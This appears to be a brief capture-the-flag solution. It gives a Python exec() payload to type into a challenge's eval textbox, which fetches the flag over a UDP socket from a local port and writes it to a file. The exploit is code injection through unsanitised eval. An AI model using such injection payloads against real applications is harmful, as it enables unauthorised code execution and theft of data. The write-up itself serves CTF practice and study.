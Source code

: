 # Solution

Type this in eval textbox:

exec("""import socket as s;p=s.socket(s.AF_INET, s.SOCK_DGRAM);p.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);p.bind(("localhost", 0));p.sendto(b"", ("localhost", 31337));f=open("file_name", "wb");f.write((p.recvfrom(1024))[0]);f.close()""")  # write flag to "file_name"

open("file_name").read()  # read flag from "file_name"
